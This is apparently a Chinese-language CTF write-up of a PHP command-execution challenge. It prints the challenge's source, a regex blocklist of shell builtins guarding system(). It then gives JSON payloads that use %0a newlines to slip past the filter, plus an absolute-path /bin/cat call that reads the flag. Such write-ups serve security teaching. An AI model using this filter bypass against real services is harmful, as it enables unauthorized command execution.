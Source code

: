 ![[Pasted image 20221224090401.png|500]]

---
首页长这样

![[Pasted image 20221224090929.png|400]]

要我们输入一个`json`字符串，通过`cmd`查询传递，因而推测键名也为`cmd`
```json
{"cmd": "ls"}
```

> Attempting to run command:  
index.php

尝试获取`index.php`的内容

```json
{"cmd": "cat index.php"}
```

> Hacking attempt detected

多次尝试无果，寻求`wp`帮助QAQ

然后发现原题离谱地提供了源码

![[Pasted image 20221224093015.png]]

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}
?>
```

通过`preg_match`实现`WAF`，直接通过`%0a`绕过单行匹配中的`.*`

```
{%0a"cmd": "cat index.php"%0a}
```

> Attempting to run command:

没有回显，非常奇怪nanoda

```php
putenv('PATH=/home/rceservice/jail');
```
![[Pasted image 20221224094442.png|500]]

emmm，这波是`PATH`被挟持了，问题不大，用绝对路径应该就行

尝试查看`/home/rceservice/jail`下面的东西
```
{%0a"cmd": "ls /home/rceservice/jail"%0a}
```

> Attempting to run command:
ls

好家伙，真就只给了`ls`
```
{%0a"cmd": "ls /home/rceservice"%0a}
```

> Attempting to run command:  
flag jail

```
{%0a"cmd": "/bin/cat /home/rceservice/flag"%0a}
```

> Attempting to run command:  
flag{f632fadd-2fad-439f-b5e1-75acf38cc1f3}

#Web #RCE #PHP #正则表达式 #json #环境变量 #挟持